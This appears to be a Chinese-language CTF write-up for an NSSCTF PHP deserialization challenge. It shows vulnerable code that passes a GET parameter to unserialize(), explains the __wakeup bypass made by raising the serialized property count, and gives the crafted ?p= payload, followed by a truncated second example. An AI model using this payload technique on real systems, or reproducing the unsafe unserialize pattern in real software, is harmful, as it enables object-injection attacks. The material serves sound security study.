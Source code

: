 ```php
            $this->passwd = "123456";
        }
 
        public function __wakeup(){
            $this->passwd = sha1($this->passwd);
        }
 
        public function __destruct(){
            if($this->admin === "admin" && $this->passwd === "wllm"){
                include("flag.php");
                echo $flag;
            }else{
                echo $this->passwd;
                echo "No wake up";
            }
        }
    }
 
$Letmeseesee = $_GET['p'];
unserialize($Letmeseesee);
 
?> NSSCTF{f7b177f4-8e9c-4154-9134-db0011b3b97a}
```

分析：

        只要满足__destruct()方法中的if条件就可以获得flag，构造payload时给对于属性赋值即可；

        然而，在反序列化调用unserialize()方法时会触发__wakeup方法，进而改变我们给$passwd属性的赋值，最终导致不满足if条件；

        因此需要避免__wakeup方法的触发，这就需要可以利用__wakeup()方法的漏洞，使序列化字符串的表示成员属性的数字大于实际的对象的成员属性数量，如下payload的构造：

```php
<?php
class HaHaHa{
    public $admin="admin";
    public $passwd="wllm";
}
 
$a=new HaHaHa();
 
$b=serialize($a);
echo "?p=".$b;
 
?>
 
//输出：
?p=O:6:"HaHaHa":2:{s:5:"admin";s:5:"admin";s:6:"passwd";s:4:"wllm";}
 
//将成员属性数量2改为3，大于实际值2即可，payload如下：
?p=O:6:"HaHaHa":3:{s:5:"admin";s:5:"admin";s:6:"passwd";s:4:"wllm";}
```

### <font style="color:#000000;">引用</font>
```php
//简单例题
 
<?php
 
show_source(__FILE__);
 
###very___so___easy!!!!
class test{
    public $a;
    public $b;
    public $c;
```